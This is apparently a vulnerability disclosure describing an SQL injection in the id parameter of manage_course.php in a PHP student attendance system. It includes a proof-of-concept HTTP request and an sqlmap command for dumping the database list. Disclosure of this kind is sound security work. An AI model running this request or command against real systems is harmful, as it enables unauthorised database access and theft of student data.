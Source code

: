 ## Affected version: 
School Intramurals - Student Attendance Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15920/school-intramurals-student-attendance-management-system-using-php-and-sqlite.html

## Vulnerability File:
/intrams_sams/manage_course.php?id=1*

## Description:
In-school - Student Attendance Management System 1.0 is vulnerable to unrestricted SQL injection attacks via /intrams_sams/manage_course.php, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /intrams_sams/manage_course.php?id=1* HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ti9v91it1tp5drisi5i7b3944b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23

```

sqlmap command
```salmap.py -r 1.txt --random-agent --threads=10 --dbs```

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/82551bde-252d-4be8-a4c1-0f10e3cfc52a)


## code analysis:

The id parameter in manage_course.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/a7055556-7994-4227-9b9a-efd37c4a72b8)


